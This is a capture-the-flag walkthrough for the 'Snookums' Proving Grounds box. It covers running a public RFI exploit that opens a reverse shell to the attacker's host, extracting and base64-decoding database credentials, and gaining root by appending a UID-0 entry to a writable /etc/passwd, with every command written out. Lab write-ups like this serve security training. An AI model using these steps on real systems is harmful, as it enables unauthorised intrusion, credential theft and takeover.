 Snookums is an intermediate Proving Grounds box, also rated as intermediate by the community. After gaining an initial foothold, we discover credentials within the target's database and laterally escalate. For privilege escalation, the `/etc/passwd` file is writable which allows for direct user creation, and in this case we initialize a new `root` user.

`nmap` scan:

```
nmap <target ip> -sS -sC -sV -Pn -p- -T4 --min-rate 10000
```

![Nmap 1](assets/snookums/nmap-1.png)

![Nmap 2](assets/snookums/nmap-2.png)

Check out port 80:

![Port80 1](assets/snookums/port_80-1.png)

We have a potential service name with `Simple PHP Photo Gallery`, could be important later. Let's `dirsearch` this `url`:

```
python3 dirsearch.py -u <target ip> -e html,txt,php -x 400,401,403,404
```

![Dirsearch 1](assets/snookums/dirsearch-1.png)

Nothing too interesting, and without credentials we cannot login. Enumerate `Simple PHP Photo Gallery v0.8`:

![Google 1](assets/snookums/google-1.png)

An interesting Github repo pops up with RFI that leads in RCE which is always great for hackers.

![Github 1](assets/snookums/github-1.png)

The version listed here is different from what's shown on port 80, but we'll try it anyway. Clone this repo and follow instructions.

Have a `nc` listener going, preferably on a port that's also open on the target so in this case we'll choose `33060`. Then, execute the exploit like this:

```
python3 exploit.py http://<target ip> <attacker ip> <attacker port>
```

![Exploit 1](assets/snookums/exploit-1.png)

![Exploit 2](assets/snookums/exploit-2.png)

We get a shell and can execute basic binaries which is great! Upgrade the initial shell with this:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![Shell 1](assets/snookums/shell-1.png)

A potential sensitive file is found under `/var/www/html`, `/db.php`:

![DB 1](assets/snookums/db-1.png)

```
root
MalapropDoffUtilize1337
```

From our `nmap` scan we also know that port `3306` is being used, which means that the target is running `mysql`. We can access `mysql` and try the credentials we just found:

```
mysql -u root -p
```

![MySQL 1](assets/snookums/mysql-1.png)

Enumerating the database leads us to user credentials:

![MySQL 2](assets/snookums/mysql-2.png)

The passwords all have `=` characters appended at the end which tells us that they are likely `base64` encoded. Let's start with `michael`:

```
echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d
```

![Decode 1](assets/snookums/decode-1.png)

We decode the string until there aren't any `=` characters at the end, and now we're left with a human readable string:

```
HockSydneyCertify123
```

Can we login as `michael` with this password?

```
su michael
```

![Michael 1](assets/snookums/michael-1.png)

Nice, we can! Grab `local.txt` and let's move on to privilege escalation.

![Local txt 1](assets/snookums/local_txt-1.png)

Transfer `linpeas.sh` to the target machine inside of `/tmp`:

![Linpeas 1](assets/snookums/linpeas-1.png)

![Linpeas 2](assets/snookums/linpeas-2.png)

A writable `/etc/passwd` is huge. That file is incredibly sensitive, and having permissions as a normal user to edit it could directly lead to `root` access. Google `writable /etc/passwd`:

![Google 2](assets/snookums/google-2.png)

![Generating Hash 1](assets/snookums/generating_hash-1.png)

Create a password following these instructions:

```
openssl passwd -1 -salt password
```

![Password 1](assets/snookums/password-1.png)

Now we can construct a new user with this password. Also refer to the anatomy of a `/etc/passwd` entry:

![ETC Passwd ID 1](assets/snookums/etc_passwd_id-1.png)

An ID of `0` indicates the `root`, so if we combine our generated password with IDs of `0` we will have effectively created a `root` user.

```
newuser:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:/test:/root:/bin/bash
```

```
echo "newuser:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:/test:/root:/bin/bash" >> /etc/passwd
```

```
su newuser
```

![Root 1](assets/snookums/root-1.png)

Rooted! :partying_face:
